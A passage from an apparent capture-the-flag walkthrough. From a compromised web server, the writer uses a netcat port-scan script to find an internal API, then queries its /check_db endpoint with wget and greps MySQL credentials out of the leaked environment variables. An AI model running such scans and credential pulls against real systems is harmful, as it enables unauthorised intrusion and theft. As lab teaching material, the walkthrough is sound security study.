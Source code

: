We successfully got the IP of the API using netcat. Now let us do a quick portscan using netcat.

#### Port scanning API

We can now use netcat to portscan the api using following script.

```bash
#!/bin/bash
HOST="api"
for PORT in $(seq 1 65535);
 do
         nc -z $HOST $PORT; # Connect to host foreach port
         if [[ $? -eq 0 ]]; # Port open
          then
                  echo "$HOST:$PORT is open!";
         fi
 done
```

After running the script for a couple of seconds, we get a result returned:

```bash
www-adm@webserver:~$ ./portscan.sh 
api:5000 is open!
```

Let us try to access the API now.

#### Using wget

```bash
www-adm@webserver:~$ wget -O- -q api:5000
{"message":"Welcome to the game-key verification API! You can verify your keys via: /verify/<game-key>. If you are using manual verification, you have to synchronize the magic_num here. Admin users can verify the database using /check_db.","status":200}
```

We can try to access `/check_db`.

```bash
www-adm@webserver:~$ wget -O- -q api:5000/check_db
{"message":{
"AppArmorProfile":"docker-default",
"Args":[...],
"Env":[
"MYSQL_DATABASE=db","MYSQL_USER=drew","MYSQL_PASSWORD=drew","MYSQL_ROOT_PASSWORD=XeoNu86JTznxMCQuGHrGutF3Csq5",[...]
],"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},[...],
"Status":"running"}},
"status":200}
```

The environment variables contains a username `drew` and a password: `XeoNu86JTznxMCQuGHrGutF3Csq5`.

```bash
www-adm@webserver:~$ wget -O- -q api:5000/check_db | grep -oE 'MYSQL_USER=[^"]*'
MYSQL_USER=drew
www-adm@webserver:~$ wget -O- -q api:5000/check_db | grep -oE 'MYSQL_ROOT_PASSWORD=[^"]*'
MYSQL_ROOT_PASSWORD=XeoNu86JTznxMCQuGHrGutF3Csq5
```
